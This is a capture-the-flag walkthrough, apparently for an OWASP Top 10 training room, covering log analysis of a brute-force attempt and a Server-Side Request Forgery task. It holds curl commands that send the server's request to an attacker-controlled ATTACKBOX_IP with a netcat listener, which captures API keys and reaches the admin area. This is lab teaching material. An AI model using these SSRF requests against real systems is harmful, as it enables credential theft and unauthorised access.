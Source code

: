 ## Task 21 Security Logging and Monitoring Failures

* Download Task Files to `~/Desktop/login-logs.txt`

**What IP address is the attacker using?**

```shell
grep 401 login-logs.txt | awk '{print $3}' | sort -u
```

**What kind of attack is being carried out?**

* Ask ChatGPT "What do you call trying combinations of usernames and passwords to gain access to users' accounts?"

## Task 22 Server-Side Request Forgery (SSRF)

**Explore the website. What is the only host allowed to access the admin area?**

* Go to http://MACHINE_IP:8087/admin

**Check the "Download Resume" button. Where does the server parameter point to?**

* Go to http://MACHINE_IP:8087 and then "Home"
* Hover over "Download Resume" button to get the url

**Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?**

* On a terminal and execute netcat:

  ```shell
  nc -lvp 8000
  ```

* On another terminal execute:

  ```shell
  # MACHINE_IP = IP of owasp_top10_2021_v1.2 room machine
  # ATTACKBOX_IP = IP of your attack box
  curl 'http://MACHINE_IP:8087/download?server=ATTACKBOX_IP:8000&id=75482342'
  ```

* Check the netcat output on the first terminal

**There's a way to use SSRF to gain access to the site's admin area. Can you find it?**

* On a terminal and execute netcat:

  ```shell
  nc -lvp 8000
  ```

* On another terminal execute:

  ```shell
  # MACHINE_IP = IP of owasp_top10_2021_v1.2 room machine
  # ATTACKBOX_IP = IP of your attack box
  curl 'http://MACHINE_IP:8087/download?server=ATTACKBOX_IP:8000/admin&id=75482342'
  ````
